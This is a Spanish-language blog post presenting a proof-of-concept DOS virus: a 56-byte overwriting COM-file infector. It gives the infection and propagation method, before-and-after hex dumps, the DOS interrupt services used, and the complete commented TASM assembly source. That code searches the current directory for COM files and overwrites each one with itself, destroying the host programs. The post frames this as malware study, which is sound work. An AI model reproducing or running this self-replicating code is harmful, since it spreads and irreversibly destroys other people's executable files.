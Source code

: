```yaml
---
categories: [Malware, Programacion]
layout: post
published: true
tags: [16-bit, ASM-x86, DOS, PoC, TASM, Virus]
title: "Prueba de concepto - Virus: x86/DOS, COM, Overwriting"
toc: true
---
```


Prueba de concepto de virus en la plataforma x86/DOS con estrategia de infección por 
overwriting (sobrescritura) en archivos COM. El virus infecta archivos en tiempo 
de ejecución.

## Método de infección
El virus simplemente sobrescribe otros archivos COM con el código viral. Es la estrategia
 más primitiva, pero es muy agresiva y destructiva. Todas las generaciones del 
virus son idénticas.

![infection](/assets/images/poc-virus-x86dos-com-overwriting/infection.png){:width="350"}

Generalmente nada se preserva de los archivos huéspedes ya que son destruidos por la sobrescritura. 
La desinfección consiste en eliminar todos los archivos infectados.

## Método de propagación
La infección se realiza en el momento de ejecución infectando todos los archivos COM en el 
directorio actual a excepción de aquellos con atributo READ-ONLY, HIDDEN o SYSTEM.

## Flujo de ejecución
![flow](/assets/images/poc-virus-x86dos-com-overwriting/flow.png){:width="350"}

## Análisis estático
Hex dump de un archivo sano de tamaño 80 bytes:
<pre class="ovf">
<span class="offsetheader">Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span class="offsetcol">0x0000</span>  <span class="hexcol">B4 09 BA 39 01 CD 21 90</span>  <span class="textcol">´.º9.Í!.</span>
<span class="offsetcol">0x0008</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0010</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0018</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0020</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0028</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0030</span>  <span class="hexcol">90 90 90 90 90 B4 00 CD</span>  <span class="textcol">.....´.Í</span>
<span class="offsetcol">0x0038</span>  <span class="hexcol">21 54 68 69 73 20 69 73</span>  <span class="textcol">!This is</span>
<span class="offsetcol">0x0040</span>  <span class="hexcol">20 61 20 68 6F 73 74 20</span>  <span class="textcol"> a host </span>
<span class="offsetcol">0x0048</span>  <span class="hexcol">66 69 6C 65 21 0D 0A 24</span>  <span class="textcol">file!..$</span>
</pre>

Hex dump del archivo infectado:
<pre class="ovf">
<span class="offsetheader">Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span class="offsetcol">0x0000</span>  <span class="vhexcol">B4 4E 33 C9 BA 32 01 CD</span>  <span class="vtextcol">´N3Éº2.Í</span>
<span class="offsetcol">0x0008</span>  <span class="vhexcol">21 73 08 EB 21 B4 4F CD</span>  <span class="vtextcol">!s.ë!´OÍ</span>
<span class="offsetcol">0x0010</span>  <span class="vhexcol">21 72 1B B4 3D B0 02 BA</span>  <span class="vtextcol">!r.´=°.º</span>
<span class="offsetcol">0x0018</span>  <span class="vhexcol">9E 00 CD 21 8B D8 B4 40</span>  <span class="vtextcol">ž.Í!‹Ø´@</span>
<span class="offsetcol">0x0020</span>  <span class="vhexcol">B9 38 00 BA 00 01 CD 21</span>  <span class="vtextcol">¹8.º..Í!</span>
<span class="offsetcol">0x0028</span>  <span class="vhexcol">B4 3E CD 21 EB DF B4 00</span>  <span class="vtextcol">´>Í!ëß´.</span>
<span class="offsetcol">0x0030</span>  <span class="vhexcol">CD 21 2A 2E 63 6F 6D 00</span>  <span class="vtextcol">Í!*.com.</span>
<span class="offsetcol">0x0038</span>  <span class="hexcol">21 54 68 69 73 20 69 73</span>  <span class="textcol">!This is</span>
<span class="offsetcol">0x0040</span>  <span class="hexcol">20 61 20 68 6F 73 74 20</span>  <span class="textcol"> a host </span>
<span class="offsetcol">0x0048</span>  <span class="hexcol">66 69 6C 65 21 0D 0A 24</span>  <span class="textcol">file!..$</span>
</pre>
<style>
.offsetheader { color:#000000; line-height:200% }
.offsetcol { color:#000000 }
.hexcol { color:#000000 }
.textcol { color:#000000 }
.vhexcol, .vtextcol  { color:#ff0000 }
</style>

El virus sobrescribe desde el offset 0x0000 hasta 0x0037 (56 bytes). Lo único que se 
conserva del huésped es el código luego del offset 0x0037. Si el huésped fuera menor 
a 56 bytes no quedaría nada de el.

## API utilizada
Se utilizan 6 servicios de la DOS API mediante la interrupción de software 21h.
<div class="table-responsive">
<table class="table">
  <thead class="thead-light">
    <tr>
      <th>Servicio</th>
      <th>AH</th>
      <th>Parámetros</th>
      <th>Retorno</th>
      <th>Versión DOS</th>
    </tr>
  </thead>
  <tr>
    <td>Terminar programa</td>
    <td>00h</td>
    <td class="center">-</td>
    <td class="center">-</td>
    <td>1+</td>
  </tr>
  <tr>
    <td>Abrir archivo existente</td>
    <td>3Dh</td>
    <td>AL = modos de acceso e intercambio<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, AX = handle del archivo <br>Error: CF = 1, AX = código de error </td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Cerrar archivo</td>
    <td>3Eh</td>
    <td>BX = handle del archivo</td>
    <td>Éxito: CF = 0, AX destruido <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Escribir en archivo <br>o dispositivo</td>
    <td>40h</td>
    <td>BX = handle del archivo <br>CX = nro. de bytes <br>DS:DX -&gt; datos a escribir</td>
    <td>Éxito: CF = 0, AX = nro. de bytes escritos <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el primer archivo <br>coincidente</td>
    <td>4Eh</td>
    <td>CX = máscara de atributos de archivo<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el siguiente archivo <br>coincidente</td>
    <td>4Fh</td>
    <td class="center">-</td>
    <td>Exito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;###############################################################################
;# Nombre:        virus://DOS/Trivial.56
;# Plataforma:    Intel x86
;# SO:            DOS v2.0+, Win32 (mediante NTVDM)
;# Lenguaje:      ASM x86-16 (sintaxis Intel)
;# Herramientas:  TASM v4.1, TLINK v7.1.30
;# Tipo:          Overwriting, Non-Resident, COM infector
;# Tamaño:        56 bytes
;# Propagación:   Acción directa sobre el directorio actual. 
;# Infección:     Sobrescritura de archivos COM (no READ-ONLY/HIDDEN/SYSTEM).
;# Residente:     No
;# Stealth:       No
;# Payload:       No
;##############################################################################
                .8086  
                .model  tiny

                assume  cs:virus, ds:virus

      virus     segment byte public 'CODE'

                org     100h

      start:    mov     ah, 4Eh               ; | AH = 4Eh 
                xor     cx, cx                ; | CX = 0, archivos normales
                lea     dx, search_str        ; | DS:DX -> "*.COM"
                int     21h                   ; |_DOS API - Buscar primer archivo

                jnc     infect_file           ; archivo encontrado
                jmp     exit                  ; no hay archivo

  find_next:    mov     ah, 4Fh               ; | AH = 4Fh  
                int     21h                   ; |_DOS API - Buscar siguiente archivo 

                jc      exit                  ; no hay archivo

infect_file:    mov     ah, 3Dh               ; | AH = 3Dh 
                mov     al, 2                 ; | AL = 2, lectura y escritura
                mov     dx, 9Eh               ; | DS:DX -> DTA + 1Eh = 9Eh (FileName)
                int     21h                   ; |_DOS API - Abrir archivo existente

                mov     bx, ax                ; | BX = handle del archivo 
                mov     ah, 40h               ; | AH = 40h
                mov     cx, virus_size        ; | CX = tamaño del virus
                lea     dx, start             ; | DS:DX -> inicio del código viral
                int     21h                   ; |_DOS API - Escribir en archivo/dispositivo

                mov     ah, 3Eh               ; | AH = 3Eh 
                int     21h                   ; |_DOS API - Cerrar archivo

                jmp     find_next             ; buscar siguiente

      exit:     mov     ah, 00h               ; | AH = 00h
                int     21h                   ; |_DOS API - Retornar a DOS

  search_str    db      "*.com", 00h          ; nombre comodín de búsqueda
  virus_size    equ     ($ - start)           ; tamaño del virus

       virus    ends
                end     start
{% endhighlight %}

## Casos reales
* La familia de virus *Trivial* en sistemas DOS se caracteriza por tener los 
  ejemplares de virus más pequeños. Por ejemplo, *DOS/Trivial.22* es un 
  virus de solo 22 bytes.
* El gusano *VBS/LoveLetter.A@mm* tiene como principal vector de propagación el
  envió masivo de e-mails. Al ejecutarse sobre escribe archivos de extensión 
  *.vbs*, *.vbe*, *.js*, *.css*, *.jpg*, *.txt*, *.html*, *.avi*, *.mp3*, 
  y muchos más. Fue notablemente exitoso en el 2000.

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 